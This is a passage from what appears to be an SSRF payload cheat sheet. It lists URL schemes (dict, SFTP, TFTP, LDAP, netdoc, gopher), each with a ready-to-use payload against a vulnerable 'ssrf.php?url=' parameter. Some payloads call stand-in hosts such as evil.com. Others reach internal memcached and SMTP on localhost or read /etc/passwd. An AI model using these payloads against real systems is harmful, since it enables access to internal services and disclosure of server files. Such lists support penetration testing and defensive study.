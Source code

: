 ```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP 

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```


### Netdoc

Wrapper for Java when your payloads struggle with "`\n`" and "`\r`" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
```


### Gopher

The `gopher://` protocol is a lightweight, text-based protocol that predates the modern World Wide Web. It was designed for distributing, searching, and retrieving documents over the Internet.

```ps1
gopher://[host]:[port]/[type][selector]
```

This scheme is very useful as it as be used to send data to TCP protocol.

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

Refer to the SSRF Advanced Exploitation to explore the `gopher://` protocol deeper.


## Blind Exploitation
